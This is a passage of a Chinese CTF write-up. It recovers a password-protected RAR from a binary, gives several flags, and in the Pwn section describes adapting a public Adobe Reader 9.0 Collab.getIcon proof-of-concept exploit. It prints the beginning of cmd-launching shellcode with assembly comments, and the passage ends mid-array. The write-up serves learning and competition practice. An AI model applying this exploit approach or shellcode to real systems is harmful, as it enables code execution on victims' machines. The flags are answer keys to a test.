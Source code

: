 ![enter image description here](http://drops.javaweb.org/uploads/images/30ad9c5f70acf0a8c9cd4453b8f2567ad7832f7b.jpg)

循环结束刚好是rar文件的文件尾。将0x41B1F6-0x41B6C3部分复制出来，得到一个rar文件，打开后里面有个key.png，但是rar加了密。

![enter image description here](http://drops.javaweb.org/uploads/images/b328d54eac41b4099453c1789a5de29b6dabd0cc.jpg)

拿出最开始得到的密码：我不是传说中的密码，得到Key：

```
Key: C6ua3izS2ze9Wetx

```

Flag：`C6ua3izS2ze9Wetx`

退避三舍
----

* * *

这个我一直没搞定程序里的反调试，用了52Pojie的破解版OD也不行。F9一下，就变成终止了，期待大神指导。Key是大神提供的：

![enter image description here](http://drops.javaweb.org/uploads/images/93f1aa19ae7cbf3e3146606fa989215dd307309a.jpg)

Flag：`MD5_is_easy+C9841-4FF72-14430-D82EF-B6AC2` 

0x04 Pwn楚王问鼎
============

* * *

Pwn部分我确实不会，之前也没弄过，唯一弄出的一个代码什么的都是别人的。

镇压叛乱
----

* * *

百度搜索Adobe Reader 9.0漏洞，发现下面2个页面，

【原创】CVE-2009-0027调试笔记： http://bbs.pediy.com/showthread.php?t=98139

【原创】完整剖析Acrobat Reader - Collab getIcon universal exploiter之路

http://hi.baidu.com/snowdbg/item/e788c12aeffa49866e2cc39b 其中还提供了POC文件，该POC中嵌入了能够执行的Javascript代码，通过doc.Collab.getIcon函数触发漏洞，如图

![enter image description here](http://drops.javaweb.org/uploads/images/f5f07fab02e12bb0137c641ddcabc6792956b937.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/7ddeaf5b5d9c968edf9340de679664cf8bfb58f0.jpg)

下面只需要将弹出msgbox的shellcode修改为弹出cmd命令行的shellcode，继续搜索cmd shellcode， shellcode启动CMD http://blog.sina.com.cn/s/blog_7cb57750010137y4.html 将其中的shellcode

```
char shellcode[]=
//打开CMD的shellcode
"\x55"                   //push ebp
"\x8B\xEC"               //mov ebp, esp
"\x33\xC0"               //xor eax, eax
"\x50"                   //push eax
"\x50"                   //push eax
"\x50"                   //push eax
"\xC6\x45\xF5\x6D"       //mov byte ptr[ebp-0Bh], 6Dh
"\xC6\x45\xF6\x73"       //mov byte ptr[ebp-0Ah], 73h
"\xC6\x45\xF7\x76"       //mov byte ptr[ebp-09h], 76h
"\xC6\x45\xF8\x63"       //mov byte ptr[ebp-08h], 63h
"\xC6\x45\xF9\x72"       //mov byte ptr[ebp-07h], 72h
"\xC6\x45\xFA\x74"       //mov byte ptr[ebp-06h], 74h
"\xC6\x45\xFB\x2E"       //mov byte ptr[ebp-05h], 2Eh
"\xC6\x45\xFC\x64"       //mov byte ptr[ebp-04h], 64h
```